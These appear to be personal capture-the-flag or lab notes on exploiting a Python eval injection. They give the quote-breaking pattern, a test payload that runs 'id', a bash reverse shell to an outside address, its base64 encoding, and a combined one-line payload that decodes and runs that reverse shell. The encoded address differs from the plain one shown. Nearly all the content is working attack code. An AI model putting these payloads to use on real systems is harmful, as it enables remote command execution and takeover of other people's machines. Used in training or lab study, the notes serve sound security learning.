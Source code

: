 - Python injection :
	- `') + str( <code>) #`
		- ' to close query and then + str to enter into eval
		-  # to comment everything after
		- + operator to concatenate the output of another line separately.
	
	- `') + str(__import__('os').system('id')) #`
		- we get an output of user id 1000 svc

- now for reverse shell,
	- open netcat listener or port you want

	- exploit :
		- `bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
	- in base 64 :
		- `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS80MjQyIDA+JjE=`

	- full exploit combining everything :

		- `') + str(__import__('os').system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNC84ODg4IDA+JjE=| base64 -d|bash')) #`


- [ ] 2.1.1 (page 20)